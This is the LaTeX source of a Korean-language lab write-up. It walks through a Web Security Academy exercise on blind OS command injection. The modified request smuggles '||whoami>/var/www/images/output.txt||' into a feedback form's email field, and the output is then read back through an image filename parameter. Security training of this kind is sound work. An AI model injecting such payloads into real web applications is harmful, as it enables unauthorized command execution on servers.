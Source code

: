 \documentclass{article}
\begin{document}
\begin{description}
\begin{enumerate}
    \begin{lstlisting}[label={lst:blind-original-request},caption={원본 요청 (original request)}]
      ...
      csrf=KjqMoomIJ7U33OVTKzTDTGaWMNVwDO1G&name=potato&email=potato%40potato.com&subject=potato&message=afsdfsdfsd
    \end{lstlisting}

    \begin{lstlisting}[label={lst:modified-request},caption={변동된 요청 (modified request)}]
      ...
      csrf=KjqMoomIJ7U33OVTKzTDTGaWMNVwDO1G&name=potato&email=||whoami>/var/www/images/output.txt||&subject=potato&message=afsdfsdfsd
    \end{lstlisting}
    이떄 \texttt{>} 연산자는 리다이렉션 연산자이며, \texttt{whoami} 명령의 출력을 \texttt{/var/www/images/output.txt} 파일로 리다이렉트합니다.
    \item 수정된 요청을 서버로 전송합니다. 이떄 전송의 성공 여부는 \texttt{Thank you for submitting feedback!} 메시지로 확인할 수 있습니다.
    \item 파일을 출력하기 위해서 filename 파라미터에 접근해야 하므로, 상품 페이지로 이동합니다.
    \item 이후 filename 파라미터에 \texttt{output.txt}를 지정하여 \texttt{/var/www/images/output.txt} 파일을 불러옵니다.

    \begin{lstlisting}[label={lst:modified-request},caption={원본 요청 (original request)}]
    GET /image?filename=36.jpg HTTP/2
    Host: 0a53005403fa3e2281a86b82005100f1.web-security-academy.net
    \end{lstlisting}
    \begin{lstlisting}[label={lst:modified-request},caption={변동된 요청 (modified request)}]
    GET /image?filename=output.txt HTTP/2
    Host: 0a53005403fa3e2281a86b82005100f1.web-security-academy.net
    \end{lstlisting}

    \newpage
    \item 최종 결과를 아래처럼 확인할 수 있습니다.
    \begin{figure}[htbp]
      \centering
      \includegraphics[width=0.7\textwidth]{../figure/figure6.png}
      \caption{문제3의 결과}
      \label{fig:whoami-result-2}
      \end{figure}

  \end{enumerate}


\end{description}
\end{document}

